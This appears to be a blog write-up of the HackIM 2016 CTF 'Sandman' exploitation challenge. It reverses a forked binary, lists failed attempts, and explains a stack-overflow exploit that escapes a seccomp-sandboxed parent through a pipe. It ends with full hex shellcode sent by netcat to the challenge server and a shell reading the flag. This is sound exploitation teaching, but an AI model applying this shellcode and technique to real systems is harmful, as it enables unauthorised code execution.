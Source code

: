 ```yaml
---
layout: post
title: HackIM 2016 CTF - Sandman Exploitation 200
category: Exploitation
tags: Exploitation nullcon-hackim
---
```


**Points:** 200
**Solves:** 
**Category:** Exploitation
**Description:**

> [Sandman]({{site.url}}/assets/sandman)

# Write-Up

> [*] '/Users/user/ctfs/HackIM2016/pwn200/sandman'   
>    Arch:          amd64-64-little   
>    RELRO:         Partial RELRO   
>    Stack Canary:  No canary found   
>    NX:            NX disabled   
>    PIE:           No PIE   

So a 64bit binary with all protections disabled.

## Execution flow

1 Create a pipe(pipeFD)  
2 fork()    

* What follows next is the execution flow of the parent process, the child takes a different route  

3 read(stdin, bufSize, 4)  
4 mmap(0, bufSize, 0x7, 0x22, 0xffffffff, 0x0) - the size we pass to the previous read() is the size mmap allocates with read/write/execute permissions  
5 read(stdin, newMemoryMapFromMmap, bufSize)  
6 Sandbox the parent with seccomp, the only allowed syscalls are read/write/exit  
7 Jump to the new mmap page and execute our input (I call this the parent shellcode)   

* Child execution flow  

3 call 0x0400e2b with argument the created pipe file descriptor  
4 read(stdin, localBuf, 1)  
5 call 0x400ddf(localBuf, pipeFD)   
>> Here in 0x400ddf it compares if the localBuf data we passed is == 0x0e or ( > 1 || =< 0x05 ).   
>> To reach the vulnerable code we need this to be == 0x0e   
6 call func 0x400cca  
6.1 In this function we have a call to read(stdin, localBuf, 4)  
6.2 calloc(localBuf) - Ok, we control the size of allocated heap buffer  
6.3 read(pipeFD, callocBufferOnHeap, localBuf)  
>> So, it looks like control the amount of data to be placed on the heap. The input file descriptor is the previously created pipe().  
7 Call vulnerable function 0x0400bac(callocBufferOnHeap)  
7.1 strncmp(callocBufferOnHeap, "http://", 7) - We need this compare to pass in order to continue  
7.2 dataSize = strlen(callocBufferOnHeap)  
7.3 Here at 0x0400c79 is a jump that I can't take. It takes the jump only if (callocBufferOnHeap+7) > EndOf_callocBufferOnHeap.  
7.4 size = strlen(callocBufferOnHeap+7)  
7.5 vulnerable strncpy(localBuffer, callocBufferOnHea+7, size)  

## Gameplan + few failed attempts

To exploit this the plan of action is to build a shellcode on the parent process that writes to the pipe file descriptor. The child process reads from the pipe enough data so it passes all verification checks and overwrites the saved RET in 0x0400bac.

As we control the size to be copied to the local buffer in 0x0400bac, we can just overwrite the RET. The local buffer's size is 0x230 bytes with NX disabled it should be easy right ? Yes but No, even after controlling the RET, first we can only pass a single RET address since strncpy is going to terminate on null bytes. Even after we can jump to any memory address with ASLR on we don't know which address to jump to. I can also tell you that a pointer to the Heap Buffer is in RDI but there are no gadgets to do jump/call RDI.

Another trick that I tried is to use a RET-chain by using the 8 byte address of the vsyscall table we can chain as many RETs as we want. After chaining 9 RET we reach a pointer to our BufferOnHeap+7, we just place shellcode there and viola. However, this method failed for me with SEGFAULT as soon as I tried executing the RET in the vsyscall table. A gadget that does 8 pops + ret would of worked for this method as well, but the only gadget with the closest to this stack pivot is a gadget at 0x401166, that does add rsp, 8, pop x 6, ret, with this we fall short a single pop :(, so we fail again.

And yet another fail for me was to use a gadget that does just 4 pops (or 3 I dont remember at this point) + ret since there we can find a pointer to the beginning of the BufferOnHeap. However, remember to reach the vulnerable code our buffer on the Heap needs to start with "http://" ? All is good, if "http://" converts to some garbage instructions that can easily execute and we can continue with shellcode after that. Yes but no, the 0x2f is a bad opcode, so this is not an option either :/.

# The real exploit

The way I exploited this is to leak the address of the local buffer of 0x0400bac from the parent to the child. Use that address as RET as classic RET-2-buffer exploit and execute any shellcode I want on the child where there is no sandbox. This works because fork() duplicates the entire process's memory space so the parent and child will have the same addresses. After a few calculations I decide to use RSP-0x100 from the parent as the RET address. Here is a table of how the shellcode from the parent to the child needs to look like:

{% highlight text %}
|1byte| 4 bytes Size     | data to pass to the child                       | ret Addr      |
+-----+------------------+-------------------------------------------------+---------------+
 0x0e |\x??\x00\x00\x00  | "http://" + 0x230 bytes of nopsled + shellcode  | RSP - 0x100   |
+-----+------------------+-------------------------------------------------+---------------+
{% endhighlight %}

This payload needs to be build from the parent and written to the pipe. So basically a shellcode writting shellcode :) (Sounds like the matrix "machines building machines", right? :P ).

To do that here is my assembly shellcode that I pass to the parent.

{% highlight text %}
4 byte size of payld| shellcode building sc    | sc write builded sc to pipe | Infinite loop |
--------------------+--------------------------+-----------------------------+---------------+
\xb8\x00\x00\x00    | see screenshot of the sc | see screenshot of sc        | \xeb\xfe      |
--------------------+--------------------------+-----------------------------+---------------+
{% endhighlight %}

Yes, I added an infinite loop so the parent doesnt exit... I probably could of duplicated the socked fd and use it in the child for stdin/stdout but I didn't think too much about this since adding just 2 bytes made everything work for me.

![parent shellcode]({{site.url}}/assets/Screen Shot 2016-01-31 at 3.08.44 PM.png)

## Shellcode in action.

<script type="text/javascript" src="https://asciinema.org/a/35227.js" id="asciicast-35227" data-speed="2" async></script>

{%highlight bash %}
➜  pwn200  (python -c 'print("\xb8\x00\x00\x00\x48\x8d\x9a\x00\x10\x00\x00\x48\xbe\x0e\x60\x02\x00\x00\x68\x74\x74\x48\x89\x33\x48\xbe\x70\x3a\x2f\x2f\x90\x90\x90\x90\x48\x89\x73\x08\x48\x31\xc9\x48\xbe\x90\x90\x90\x90\x90\x90\x90\x90\x48\x83\xc3\x0c\x48\x89\x34\xCB\x48\xff\xc1\x48\x83\xf9\x41\x75\xf3\x48\xbe\x90\x48\x83\xc4\x1e\x31\xc0\x48\x48\x89\x34\xCB\x48\xff\xc1\x48\xbe\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\x48\x89\x34\xCB\x48\xff\xc1\x48\xbe\xff\x48\xf7\xdb\x53\x54\x5f\x99\x48\x89\x34\xCB\x48\xff\xc1\x48\xbe\x52\x57\x54\x5e\xb0\x3b\x0f\x05\x48\x89\x34\xCB\x48\xff\xc1\x48\x8d\xb4\x24\x00\xff\xff\xff\x48\x89\x34\xCB\x48\xff\xc1\x48\x31\xc0\x8b\x45\xd0\x48\x89\xc7\x48\xc7\xc0\x01\x00\x00\x00\x48\x83\xeb\x0c\x48\x89\xde\x48\xc7\xc2\x00\x10\x00\x00\x48\xff\xc7\x0f\x05\xeb\xfe")';cat) | nc -vvv 52.72.171.221 9982

Connection to 52.72.171.221 9982 port [tcp/*] succeeded!
sh: cannot set terminal process group (14781): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.3$ sh-4.3$ echo *
bin dev flag-ooMeeT3iEephei1dAHighae7.txt lib lib64 sandman server.sh usr

sh-4.3$ cat flag-ooMeeT3iEephei1dAHighae7.txt
flag-{br3k1ng-b4d-s4ndm4n}
sh-4.3$

{% endhighlight %}

* Thank you for reading/watching ;)
